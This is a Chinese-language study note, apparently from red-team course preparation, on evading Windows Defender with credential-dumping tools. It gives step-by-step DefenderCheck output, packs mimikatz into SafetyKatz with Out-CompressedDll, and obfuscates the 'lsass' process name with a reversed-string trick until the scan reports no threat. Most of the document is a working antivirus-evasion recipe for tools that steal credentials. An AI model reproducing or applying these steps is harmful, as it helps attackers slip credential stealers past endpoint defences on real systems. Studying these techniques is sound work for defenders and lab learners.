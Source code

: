 # AV bypass

主要思路是通过混淆（Obfuscation）和字符串操纵（String Manipulation）等技术绕过基于签名的检测

使用检查工具是：[DefenderCheck](https://github.com/t3hbb/DefenderCheck)

# 字符串操纵（String Manipulation）

## 例子1：SharpKatz.exe

使用DefenderCheck检查SharpKatz.exe

```
D:\BaiduNetdiskDownload\CRTE\Tools>DefenderCheck.exe D:\BaiduNetdiskDownload\CRTE\Tools\SharpKatz-master\SharpKatz\bin\Debug\SharpKatz.exe

OriginalFileDetectionStatus is : ThreatFound
Target file size: 235520 bytes
Analyzing...

File matched signature: "VirTool:MSIL/SharpKatz.A"

[!] Identified end of bad bytes at offset 0x1198B in the original file
File matched signature: "HackTool:Win64/Mimikatz.D"

00000000   06 70 00 28 00 08 00 00  48 00 00 00 00 0D 00 08   ·p·(····H·······
00000010   00 32 00 00 00 00 00 00  00 40 00 0A 01 00 00 00   ·2·······@······
00000020   00 00 00 00 00 00 48 00  00 00 00 0E 00 08 00 32   ······H········2
00000030   00 00 00 00 00 00 00 40  00 0A 01 00 00 00 00 00   ·······@········
00000040   00 00 00 00 48 00 00 00  00 0F 00 08 00 32 00 00   ····H········2··
00000050   00 00 00 00 00 40 00 0A  01 00 00 00 00 00 00 00   ·····@··········
00000060   00 00 48 00 00 00 00 10  00 30 00 30 40 00 00 00   ··H······0·0@···
00000070   00 2C 00 24 00 47 06 0A  07 01 00 01 00 00 00 00   ·,·$·G··········
00000080   00 08 00 00 00 B8 03 48  00 08 00 08 00 0B 01 10   ·····?·H········
00000090   00 48 06 50 21 18 00 08  00 13 41 20 00 72 06 70   ·H·P!·····A ·r·p
000000A0   00 28 00 08 00 00 48 00  00 00 00 11 00 30 00 30   ·(····H······0·0
000000B0   40 00 00 00 00 2C 00 24  00 47 06 0A 07 01 00 01   @····,·$·G······
000000C0   00 00 00 00 00 08 00 00  00 B8 03 48 00 08 00 08   ·········?·H····
000000D0   00 0B 01 10 00 8C 06 50  21 18 00 08 00 13 A1 20   ·····?·P!·····?
000000E0   00 C6 06 70 00 28 00 08  00 00 49 89 CA B8 3F 00   ·?·p·(····I?ê??·
000000F0   00 00 0F 05 C3 74 25 8B  24 43 72 64 41 FF 15 49   ····?t%?$CrdA?·I
```

教材里的方法是把整个项目的```Credentials```替换成```Credents```,然后生成exe再检查

然而操作了上面的步骤以后依然过不了wd，不知道是不是因为wd的签名更新了


## 例子2：SafetyKatz 

1. 下载最新版本的[Out-CompressedDll.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)和mimikatz

2. 使用Out-CompressedDll.ps1操作mimikatz，导出结果到outputfilename.txt
```
PS D:\BaiduNetdiskDownload\CRTE\Tools> . .\Out-CompressedDll.ps1
PS D:\BaiduNetdiskDownload\CRTE\Tools> Out-CompressedDll D:\BaiduNetdiskDownload\CRTE\Tools\mimikatz_trunk\x64\mimikatz.exe > outputfilename.txt
PS D:\BaiduNetdiskDownload\CRTE\Tools>
```

3. 打开outputfilename.txt

4. 替换constants.cs
把```$EncodedCompressedFile```这个变量的内容

```
$EncodedCompressedFile = @'3H15fF.....s/wA='
```

复制到SafetyKatz项目的```constants.cs```这个文件里的```compressedMimikatzString```变量
```
namespace SafetyKatz
{
    public static class Constants
    {
        // compressed mimikatz.exe output from Out-CompressedDLL
        public static string compressedMimikatzString = "3H15fF.....s/wA=";
    }
}

```

5. 替换Program.cs

把outputfilename.txt下面这行代码的数字
```
$DeflatedStream.Read($UncompressedFileBytes, 0, 1234696) | Out-Null
```
替换到Program.cs的 111 和 116行

```
                Byte[] unpacked = new byte[1234696];
                ...
                ...
                stream.Read(unpacked, 0, 1234696);
```

6. 保存。生成exe。使用DefenderCheck检查

```
D:\BaiduNetdiskDownload\CRTE\Tools>DefenderCheck.exe D:\BaiduNetdiskDownload\CRTE\Tools\SafetyKatz-master\SafetyKatz\bin\Debug\SafetyKatz.exe

OriginalFileDetectionStatus is : ThreatFound
Target file size: 1569280 bytes
Analyzing...

File matched signature: "VirTool:MSIL/DumpLsass.A"

[!] Identified end of bad bytes at offset 0x17E009 in the original file
File matched signature: "VirTool:MSIL/DumpLsass.A"

00000000   76 00 30 00 52 00 70 00  65 00 4C 00 6D 00 69 00   v·0·R·p·e·L·m·i·
00000010   62 00 37 00 62 00 68 00  74 00 65 00 31 00 53 00   b·7·b·h·t·e·1·S·
00000020   56 00 6C 00 64 00 76 00  6A 00 45 00 43 00 35 00   V·l·d·v·j·E·C·5·
00000030   31 00 66 00 48 00 6D 00  6B 00 38 00 50 00 4B 00   1·f·H·m·k·8·P·K·
00000040   69 00 30 00 67 00 32 00  66 00 75 00 6B 00 63 00   i·0·g·2·f·u·k·c·
00000050   6E 00 54 00 67 00 71 00  38 00 6C 00 46 00 74 00   n·T·g·q·8·l·F·t·
00000060   72 00 4D 00 75 00 39 00  37 00 54 00 50 00 75 00   r·M·u·9·7·T·P·u·
00000070   58 00 64 00 59 00 6A 00  76 00 66 00 30 00 69 00   X·d·Y·j·v·f·0·i·
00000080   4B 00 50 00 4A 00 6F 00  61 00 49 00 41 00 79 00   K·P·J·o·a·I·A·y·
00000090   4F 00 38 00 67 00 74 00  36 00 57 00 50 00 52 00   O·8·g·t·6·W·P·R·
000000A0   41 00 71 00 30 00 30 00  5A 00 4D 00 50 00 64 00   A·q·0·0·Z·M·P·d·
000000B0   32 00 73 00 5A 00 57 00  51 00 73 00 37 00 32 00   2·s·Z·W·Q·s·7·2·
000000C0   78 00 77 00 6E 00 77 00  54 00 57 00 77 00 4D 00   x·w·n·w·T·W·w·M·
000000D0   56 00 68 00 32 00 73 00  30 00 79 00 48 00 32 00   V·h·2·s·0·y·H·2·
000000E0   56 00 69 00 7A 00 45 00  37 00 73 00 2F 00 77 00   V·i·z·E·7·s·/·w·
000000F0   41 00 3D 00 00 0B 6C 00  73 00 61 00 73 00 73 00   A·=···l·s·a·s·s·
```

看起来是有一个lsass的字符串触发了签名

7. 修改Program.cs里的
```
 Process[] processes = Process.GetProcessesByName("lsass");
```

为：
```
string str = "ssasl";
 
string reverse = str.Reverse();
Process[] processes = Process.GetProcessesByName(reverse);
```

注意还需要在当前类外面添加代码
```
 public static class Extensions
    {
        public static string Reverse(this string str)
        {
            char[] chars = str.ToCharArray();
            Array.Reverse(chars);
            return new string(chars);
        }
    }
```

保存。重新生成exe

8. 再次检查,已经可以绕过wd
```
D:\BaiduNetdiskDownload\CRTE\Tools>DefenderCheck.exe D:\BaiduNetdiskDownload\CRTE\Tools\SafetyKatz-master\SafetyKatz\bin\Debug\SafetyKatz.exe

OriginalFileDetectionStatus is : NoThreatFound
[+] No threat found in submitted file!

```